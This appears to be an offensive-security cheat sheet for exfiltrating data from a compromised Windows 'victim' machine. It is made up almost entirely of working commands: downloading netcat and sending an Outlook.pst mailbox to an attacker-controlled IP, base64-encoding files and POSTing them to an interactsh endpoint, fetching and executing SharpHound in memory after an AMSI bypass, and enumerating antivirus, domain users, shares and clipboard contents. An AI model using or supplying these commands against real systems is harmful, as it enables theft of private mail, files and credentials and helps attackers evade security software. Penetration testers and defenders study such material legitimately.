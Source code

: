 # Exfiltrate and find data and info
On victim/client:

In powershell shell (powershell has the wget command):
```cmd
wget https://github.com/int0x33/nc.exe/raw/master/nc.exe -Outfile nc.exe
cmd /c 'nc.exe -w 3 <yourIP> 80 < Outlook.pst'
```

On receiving server:

```bash
nc -l -p 80 > Outlook.pst
```


Or via HTTP requests:

file/pdf extraction:
```powershell
$File = "file.pdf"
$uri = "ID.interactsh.com" # change the ID 
$pdf = Get-Content $File -Encoding Byte; 
$base64 =[Convert]::ToBase64String($pdf)
Invoke-WebRequest -uri $uri -Method Post -Body $base64
```

Use https://base64.guru/converter/decode/file#download-preview-file to get the file from the base64 content

bloodhound:
```powershell
# FIRST run AMSI bypass! 
$url = "https://raw.githubusercontent.com/BloodHoundAD/BloodHound/master/Collectors/SharpHound.ps1"
IEX([Net.Webclient]::new().DownloadString($url))
mkdir "$Env:PUBLIC\bloodhound"
Invoke-BloodHound -CollectionMethod ACL,ObjectProps,Default  -OutputDirectory "$Env:PUBLIC\bloodhound"
# use file/pdf extraction to get the zip file. 
```

View AV used:
```powershell
WMIC /Node:localhost /Namespace:\\root\SecurityCenter2 Path AntiVirusProduct Get displayName /Format:List #Powershell
```

View information about current user:
```powershell
whoami
net user <name_user_whoami_without_domain> /domain
hostname
```

Show mounted shares:
```
Get-WmiObject Win32_NetworkConnection | ft "LocalName","RemoteName" -A #powershell
net use # cmd
```

Get clipboard content: 

```powershell
powershell -command "Get-Clipboard"
```

